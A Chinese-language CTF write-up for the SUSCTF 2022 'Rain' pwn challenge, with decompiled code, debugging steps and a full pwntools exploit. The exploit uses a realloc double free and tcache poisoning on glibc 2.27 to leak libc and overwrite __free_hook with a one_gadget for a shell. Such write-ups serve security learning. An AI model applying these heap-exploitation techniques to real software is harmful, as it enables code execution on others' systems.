

# SUSCTF-Rain

## 分析

checksec；

```
$ checksec rain 
[*] '/home/klose/ctf/pwn/file/adworld/susctf2022/rain/rain'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

IDA64分析

看一下题目给的libc.so.6用的libc版本；


在glibc-all-in-one中download，使用patchelf进行libc和ld的更换；

替换完成后，分析执行文件；

- main函数

  ```c
  void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
  {
    int choice; // [rsp+14h] [rbp-Ch]
    rain *rain; // [rsp+18h] [rbp-8h]
  
    init_0();
    while ( 1 )
    {
      rain = Config_init();			// 初始化函数，给结构体中的成员赋值
      while ( 1 )
      {
        while ( 1 )
        {
          while ( 1 )
          {
            printMenu();				// 打印选择目录
            choice = getChoice();		// 获取用户选择
            if ( choice != 1 )
              break;
            config(rain);				// 选择为1时，设置变量
          }
          if ( choice != 2 )
            break;
          ((void (__fastcall *)(rain *))rain->show)(rain);			// 调用指针函数，打印结构体参数信息
        }
        if ( choice == 3 )
          break;
        if ( choice == 4 )
          exit(0);
        puts("ERROR.");
      }
      start_rain((__int64)rain);				// 下雨
    }
  }
  ```

- Config_init()

  ```c
  rain *Config_init()
  {
    void **v0; // rbx
    void **v1; // rbx
    int i; // [rsp+0h] [rbp-20h]
    int j; // [rsp+4h] [rbp-1Ch]
    rain *myRain; // [rsp+8h] [rbp-18h]
  
    myRain = (rain *)malloc(0x40uLL);
    myRain->height = 80;
    myRain->width = 80;
    myRain->Font_Color = 2;
    myRain->Back_Color = 1;
    myRain->show = (__int64)showConfig;
    myRain->speed = 0xC350;
    myRain->rainfall = 0x64;
    myRain->chunk = (__int64)malloc(0x1AuLL);
    for ( i = 0; i <= 25; ++i )
      *(_BYTE *)(myRain->chunk + i) = i + 65;
    myRain->userchunk = 0LL;
    myRain->chunk0 = (__int64)malloc(8LL * myRain->height);
    myRain->chunk1 = (__int64)malloc(8LL * myRain->height);
    for ( j = 0; j < myRain->height; ++j )
    {
      v0 = (void **)(myRain->chunk0 + 8LL * j);
      *v0 = malloc(myRain->width);
      v1 = (void **)(myRain->chunk1 + 8LL * j);
      *v1 = malloc(4LL * myRain->width);
    }
    sub_401091((unsigned int *)myRain);
    byte_603070 = 1;
    return myRain;
  }
  ```

- config()

  ```c
  rain *__fastcall config(rain *a1)
  {
    rain *result; // rax
    void **v2; // rbx
    void **v3; // rbx
    int i; // [rsp+18h] [rbp-238h]
    int j; // [rsp+1Ch] [rbp-234h]
    ssize_t v6; // [rsp+20h] [rbp-230h]
    _BYTE *v7; // [rsp+28h] [rbp-228h]
    char buf[520]; // [rsp+30h] [rbp-220h] BYREF
    unsigned __int64 v9; // [rsp+238h] [rbp-18h]
  
    v9 = __readfsqword(0x28u);
    byte_603071 = 1;
    printf("FRAME> ");
    v6 = read(0, buf, 0x200uLL);
    a1->height = (buf[3] << 24) + (buf[2] << 16) + buf[0] + (buf[1] << 8);// 4 bytes
    a1->width = (buf[7] << 24) + (buf[6] << 16) + buf[4] + (buf[5] << 8);// 4 bytes
    a1->Font_Color = buf[8];
    a1->Back_Color = buf[9];
    a1->rainfall = (buf[13] << 24) + (buf[12] << 16) + buf[10] + (buf[11] << 8);
    v7 = realloc((void *)a1->userchunk, v6 - 0x12);// when v6-0x12=0, equal to free()
    if ( v7 )
    {
      for ( i = 0; i < v6 - 0x12; ++i )
        v7[i] = buf[i + 18];
      a1->userchunk = (__int64)v7;
      a1->chunk0 = (__int64)malloc(8LL * a1->height);
      a1->chunk1 = (__int64)malloc(8LL * a1->height);
      for ( j = 0; j < a1->height; ++j )
      {
        v2 = (void **)(a1->chunk0 + 8LL * j);
        *v2 = malloc(a1->width);
        v3 = (void **)(a1->chunk1 + 8LL * j);
        *v3 = malloc(4LL * a1->width);
      }
      sub_401091((unsigned int *)a1);
      result = a1;
    }
    else
    {
      printf("No character!");
      result = a1;
    }
    return result;
  }
  ```

  这里注意到`v7 = realloc((void *)a1->userchunk, v6 - 0x12);`，该行代码用了`realloc()`，如果申请调整的空间为0，相当于`free()`，考虑到glibc 2.27 1.2没有对double free进行检测，因此存在double free的问题。

## 调试

如下代码进行调试：

```python
def Frame(height, width, font_color, back_color, rainfall, table):
    frame = p32(height)  # 4
    frame += p32(width)  # 4
    frame += p8(font_color)  # 1
    frame += p8(back_color)  # 1
    frame += p32(rainfall)  # 4
    frame += p32(0xbabeface)  # 14+4=18 => 0x12
    frame += table
    return frame


def Config(frame):
    p.sendlineafter("ch> ", "1")
    p.sendafter("FRAME> ", frame)
    
if __name__ == '__main__':
    # 1 --realloc userchunk
    frame1 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)	# # size = 0x32
    Config(frame1)

    # 2 --free
    frame2 = Frame(0x10, 0x10, 3, 4, 1, b'')		# size = 0x12
    Config(frame2)

    # 3 --double free
    frame3 = Frame(0x20, 0x20, 3, 4, 1, b'')		# size = 0x12
    Config(frame3)
```

观察堆块信息可以看到：


`0x1e01260`处的两个0x20是height和width的参数，他们是第三次double free经过realloc调整后的值。同理，可以看到font_color和back_color，以及两个height大小的chunk的指针`0x1e09f30`和`0x1e0a0c0`。而`0x400e17`则存放了show函数指针，用于打印配置信息；剩下的两个堆指针分别对应chunk 和 user_chunk。


对应的结构体如上所示。

由此，在进行第三次realloc时，user_chunk被第二次free，在bins中应当出现头尾指向该堆块的链。


因此，已经造成了double free，现在需要进行漏洞的利用；

## 泄露

首先需要泄露libc基地址，因此需要利用到打印。观察打印信息，看看这些信息的存放地址是否可以篡改。


Table的值是位于`0x1e012a0`的Rain->chunk堆块的data，如果能修改Rain->chunk的地址为其他地址，则可以泄露该地址的信息。

那么如何利用已知的double free来篡改地址呢？

可以先利用double free篡改fd，使得程序申请的下一个堆块是恶意指定的fake chunk。通过观察发现，在进行start_rain操作后，while循环内会执行`rain = Config_init()`。相当于重新进行了初始化，再看Config_init()，其使用malloc申请了0x40大小的堆块。因此start_rain来使得程序执行Config_init()申请到恶意堆块，再利用打印函数，打印信息即可造成泄露。

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int choice; // [rsp+14h] [rbp-Ch]
  rain *rain; // [rsp+18h] [rbp-8h]

  init_0();
  while ( 1 )
  {
    rain = Config_init();			// 初始化函数，给结构体中的成员赋值

    ...
        
    start_rain((__int64)rain);				// 下雨
  }
}

rain *Config_init()
{
  void **v0; // rbx
  void **v1; // rbx
  int i; // [rsp+0h] [rbp-20h]
  int j; // [rsp+4h] [rbp-1Ch]
  rain *myRain; // [rsp+8h] [rbp-18h]

  myRain = (rain *)malloc(0x40uLL);
  myRain->height = 80;
  myRain->width = 80;
  myRain->Font_Color = 2;
  myRain->Back_Color = 1;
  myRain->show = (__int64)showConfig;
  myRain->speed = 0xC350;
  myRain->rainfall = 0x64;
  myRain->chunk = (__int64)malloc(0x1AuLL);
  for ( i = 0; i <= 25; ++i )
    *(_BYTE *)(myRain->chunk + i) = i + 65;
  myRain->userchunk = 0LL;
  myRain->chunk0 = (__int64)malloc(8LL * myRain->height);
  myRain->chunk1 = (__int64)malloc(8LL * myRain->height);
  for ( j = 0; j < myRain->height; ++j )
  {
    v0 = (void **)(myRain->chunk0 + 8LL * j);
    *v0 = malloc(myRain->width);
    v1 = (void **)(myRain->chunk1 + 8LL * j);
    *v1 = malloc(4LL * myRain->width);
  }
  sub_401091((unsigned int *)myRain);
  byte_603070 = 1;
  return myRain;
}
```

利用如下代码进行调试：

```python
    # 4 --modify fd
    fake_fd = 0x603000			# leak IO_stdout
    frame4 = Frame(0x60, 0x60, 3, 4, 1, p64(fake_fd))
    Config(frame4)
```

得到：


接着调用start_rain来重置，并申请掉伪造的堆块；

```python
    # 5 -- init to malloc fake chunk
    Start_rain()

    # 6 -- new chunk to print IO_stdout
    frame5 = Frame(0x30, 0x30, 3, 4, 1, b'c'*0x20)
    Config(frame5)
```

可以得到如下结果：


此时，如果调用打印函数showConfig()，即可泄露出`__IO_2_1_stdout_`的内存地址。根据glibc-2.27(1.2)版本的偏移，即可找到libc基地址、__free_hook以及one_gadget的offset；

```python
def printInfo():
    p.sendlineafter("ch> ", "2")

	# 7 -- get address of IO_stdout 
    printInfo()
    io_stdout = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
    libc_base = io_stdout - 0x3ec760
    free_hook = libc_base + 0x3ed8e8
    log.success("__IO_2_1_stdout_ => " + hex(io_stdout))
    log.success("libc_base => " + hex(libc_base))
    log.success("__free_hook => " + hex(free_hook))
    
    offset = [0x4f2c5, 0x4f322, 0x10a38c]
    one_gadget = [libc_base+offset[0], libc_base+offset[1], libc_base+offset[2]]
    
    for i in range(3):
        log.success("one_gadget[" + str(i) + "] => " + hex(one_gadget[i]))
```

得到的结果为：

```python
[+] _IO_2_1_stdout_ => 0x7fe10501a760
[+] libc_base => 0x7fe104c2e000
[+] _free_hook => 0x7fe10501b8e8
[+] one_gadget[0] => 0x7fe104c7d2c5
[+] one_gadget[1] => 0x7fe104c7d322
[+] one_gadget[2] => 0x7fe104d3838c
```

## 利用

接下来需要利用漏洞，篡改__free_hook为one_gadget的地址，通过realloc一个大小为0的chunk来完成free的操作，由此触发one_gadget；

如何进行篡改呢？同样，利用double free在__free_hook处伪造一个堆块，将one_gadget地址填入；

```python
    # init
    Start_rain()

    # 8 --realloc user_chunk
    frame6 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)
    Config(frame6)

    # 9 --free
    frame7 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame7)

    # 10 --double free
    frame8 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame8)

    # 11 --modify fd to __free_hook
    fake_fd = p64(free_hook) + b'b'*(0x20-0x8)   # __free_hook
    frame9 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)    # size(Frame) = 0x12
    Config(frame9)

    Start_rain()

    # modify __free_hook -> one_gadget
    fake_fd = p64(one_gadget[1]) * 4
    frame10 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)
    Config(frame10)
```


可以看到__free_hook所在地址已经被覆盖为one_gadget[1]；

接下来只需要进行free即可触发；

```python
    # free to trigger __free_hook -> one_gadget
    frame11 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame11)
```

最终效果如下：



exp如下：

```python
# coding:utf-8
from pwn import *
context.log_level = 'debug'

proc_name = './rain'
libc = ELF('./libc.so.6')
elf = ELF(proc_name)

islocal = 1
if islocal:
    p = process(proc_name)
else:
    p = remote('node4.buuoj.cn', 26809)


def debug(addr, PIE=True):
    if PIE:
        text_base = int(
            os.popen("pmap {}| awk '{{print $1}}'".format(p.pid)).readlines()[1], 16)
        gdb.attach(p, 'b *{}'.format(hex(text_base+addr)))
    else:
        gdb.attach(p, "b *{}".format(hex(addr)))


def rl(a=False): return p.recvline(a)


def ru(a, b=True): return p.recvuntil(a, b)
def rn(x): return p.recvn(x)
def sn(x): return p.send(x)
def sl(x): return p.sendline(x)


def sa(a, b): return p.sendafter(a, b)
def sla(a, b): return p.sendlineafter(a, b)
def irt(): return p.interactive()
def dbg(text=None): return gdb.attach(p, text)


def lg(s, addr): return log.info(
    '\033[1;31;40m %s => 0x%x \033[0m' % (s, addr))


def lg(s): return log.info('\033[1;31;40m %s => 0x%x \033[0m' % (s, eval(s)))
def uu32(data): return u32(data.ljust(4, '\x00'))
def uu64(data): return u64(data.ljust(8, '\x00'))

def Start_rain():
    p.sendlineafter("ch> ", "3")
    p.recvuntil("\n")

def printInfo():
    p.sendlineafter("ch> ", "2")

def Frame(height, width, font_color, back_color, rainfall, table):
    frame = p32(height)  # 4
    frame += p32(width)  # 4
    frame += p8(font_color)  # 1
    frame += p8(back_color)  # 1
    frame += p32(rainfall)  # 4
    frame += p32(0xbabeface)  # 14+4=18=> 0x12
    frame += table
    return frame


def Config(frame):
    p.sendlineafter("ch> ", "1")
    p.sendafter("FRAME> ", frame)


def double_free():
    # 1 --realloc userchunk
    frame1 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)
    Config(frame1)

    # 2 --free
    frame2 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame2)

    # 3 --double free
    frame3 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame3)


def leak_info():
    global libc_base
    global free_hook

    # 4 --modify fd
    fake_fd = p64(0x603000) + b'b'*(0x20-0x8)   # IO_stdout
    frame4 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)    # size(Frame) = 0x12
    Config(frame4)

    # 5 -- init to malloc fake chunk
    Start_rain()
    # debug(0)

    # 6 -- new chunk to print IO_stdout
    frame5 = Frame(0x30, 0x30, 3, 4, 1, b'c'*0x20)
    Config(frame5)
    # debug(0)

    # 7 -- get address of IO_stdout 
    printInfo()
    io_stdout = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
    libc_base = io_stdout - 0x3ec760
    free_hook = libc_base + 0x3ed8e8
    log.success("__IO_2_1_stdout_ => " + hex(io_stdout))
    log.success("libc_base => " + hex(libc_base))
    log.success("__free_hook => " + hex(free_hook))

def pwn():
    offset = [0x4f2c5, 0x4f322, 0x10a38c]
    one_gadget = [libc_base+offset[0], libc_base+offset[1], libc_base+offset[2]]
    
    for i in range(3):
        log.success("one_gadget[" + str(i) + "] => " + hex(one_gadget[i]))
    
    Start_rain()

    # 8 --realloc user_chunk
    frame6 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)
    Config(frame6)

    # 9 --free
    frame7 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame7)

    # 10 --double free
    frame8 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame8)

    # 11 --modify fd to __free_hook
    fake_fd = p64(free_hook) + b'b'*(0x20-0x8)   # __free_hook
    frame9 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)    # size(Frame) = 0x12
    Config(frame9)

    Start_rain()

    # modify __free_hook -> one_gadget
    fake_fd = p64(one_gadget[1]) * 4
    frame10 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)
    Config(frame10)

    # debug(0)

    # free to trigger __free_hook -> one_gadget
    frame11 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame11)

if __name__ == '__main__':

    double_free()
    leak_info()
    pwn()
    p.interactive()

```

